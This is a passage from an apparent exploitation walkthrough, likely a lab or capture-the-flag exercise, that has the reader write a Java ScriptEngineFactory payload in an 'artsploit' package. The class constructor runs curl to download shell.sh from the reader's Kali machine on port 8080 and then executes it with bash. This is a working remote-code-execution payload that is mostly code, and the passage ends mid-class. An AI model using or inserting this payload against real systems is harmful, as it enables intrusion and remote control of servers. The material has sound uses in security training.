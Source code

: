 ```bash
nano /home/user/payload/src/artsploit/AwesomeScriptEngineFactory.java
```

8. Now, copy the following code to this file (Make sure you change `<kali-ip-address>` with your actual Kali IP address!): 

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            // First Run
            Runtime.getRuntime().exec("curl <kali-ip-address>:8080/shell.sh -o /tmp/shell.sh");
            // Second Run
            Runtime.getRuntime().exec("bash /tmp/shell.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
```